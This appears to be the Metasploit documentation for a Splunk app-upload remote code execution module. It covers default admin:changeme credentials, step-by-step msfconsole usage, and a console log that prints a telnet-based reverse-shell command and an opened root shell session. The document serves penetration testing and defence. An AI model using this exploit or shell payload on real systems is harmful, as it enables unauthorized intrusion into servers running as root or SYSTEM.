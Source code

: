 ## Vulnerable Application

This module exploits a feature of Splunk whereby a custom application can be
uploaded through the web based interface. Through the \'script\' search command a
user can call commands defined in their custom application which includes arbitrary
perl or python code. To abuse this behavior, a valid Splunk user with the admin
role is required. By default, this module uses the credential of "admin:changeme",
the default Administrator credential for Splunk. Note that the Splunk web interface
runs as SYSTEM on Windows, or as root on Linux by default. This module has been
tested successfully against Splunk 5.0, 6.1, 6.1.1 and 7.2.4.
Version 7.2.4 has been tested successfully against OSX as well.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use exploit/multi/http/splunk_upload_app_exec```
  3. Set required variables (you will need admin credentials)
  4. Do: ```SET TARGET 1```
  5. Do: ```SET RHOST 192.168.1.1```
  6. Do: ```SET USERNAME admin```
  7. Do: ```SET PASSWORD changeme```
  8. You should get a reverse shell on port 4444 via the predefined handler.

## External Demo
[1](http://blog.7elements.co.uk/2012/11/splunk-with-great-power-comes-great-responsibility.html) <br>
[2](http://blog.7elements.co.uk/2012/11/abusing-splunk-with-metasploit.html)<br>
[3](http://docs.splunk.com/Documentation/Splunk/latest/SearchReference/Script)<br>

## Options

  **EnableOverwrite**
  Overwrites an app of the same name. Needed if you change the app code in the tgz.
  Is not enabled by default.

## Scenarios

### Testing against 7.2.4 running on OSX

  Given admin credentials we can upload the custom app to SPLUNK, which will provide us with a reverse shell, triggered by the 'search' field API.

  ```
msf5 exploit(multi/http/splunk_upload_app_exec) >
msf5 exploit(multi/http/splunk_upload_app_exec) > set RHOST 172.16.165.1
RHOST => 172.16.165.1
msf5 exploit(multi/http/splunk_upload_app_exec) > set password splunksplunk
password => splunksplunk
msf5 exploit(multi/http/splunk_upload_app_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Splunk >= 7.2.4 / Linux
   2   Splunk >= 7.2.4 / Windows
   3   Splunk >= 7.2.4 / OSX
   4   Splunk >= 5.0.1 / Linux
   5   Splunk >= 5.0.1 / Windows


msf5 exploit(multi/http/splunk_upload_app_exec) > set target 3
target => 3
msf5 exploit(multi/http/splunk_upload_app_exec) > exploit

[*] Started reverse TCP double handler on 172.16.165.206:4444
[*] Using command: sh -c '(sleep 3733|telnet 172.16.165.206 4444|while : ; do sh && break; done 2>&1|telnet 172.16.165.206 4444 >/dev/null 2>&1 &)'
[*] Authenticating...
[*] Fetching state token from /en-US/manager/appinstall/_upload
[*] Uploading file upload_app_exec.tgz
[+] upload_app_exec successfully uploaded
[*] Invoking script command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 8kNbt70jYB3aJKPm;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\n8kNbt70jYB3aJKPm\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.165.206:4444 -> 172.16.165.1:51512) at 2019-03-17 22:12:33 +0100
  ```
